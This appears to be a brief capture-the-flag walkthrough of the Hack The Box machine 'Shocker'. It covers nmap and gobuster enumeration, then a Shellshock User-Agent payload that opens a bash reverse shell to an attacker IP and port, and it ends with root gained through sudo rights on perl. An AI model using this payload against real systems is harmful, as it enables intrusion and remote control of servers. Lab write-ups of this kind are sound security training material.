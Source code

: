 Shocker without metasploit:

![Shocker](https://user-images.githubusercontent.com/55708909/91436133-21961600-e885-11ea-9527-06aa2d2e852d.png)

Starting with Nmap Scan :

Nmap -sC -sV -T4 -A -O -oA Shocker -p- 10.10.10.56

![Shocker_nmap](https://user-images.githubusercontent.com/55708909/91436808-76865c00-e886-11ea-9731-23077e3b354f.png)

Nothing seems interesting at port 80 even the source code doesn't seems promising so lets use gobuster 

When i ran gobuster in two different ways i was getting two type of response:

1-Without / i was getting not found

2-With / i was getting restricted access

![Shellshock_directory](https://user-images.githubusercontent.com/55708909/91437850-25776780-e888-11ea-8280-2b7e84da1ef3.png)

When i brute force cgi-bin directory i found user.sh and when i access it. It was prompting for Download and so i downloaded it.

As soon as i get any unexpected type of prompt download options i immediately switch to burp.

For getting a reverse shell we are going to use shellshock vulnerability inside user agent 

payload: () { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.6/4444/port 0>&1

Pass the request into burp and then get shell and user.txt 

For root write sudo -l

It has sudo right on perl program just grab a perl payload for reverse shell from pentest monkey and run it. Root access









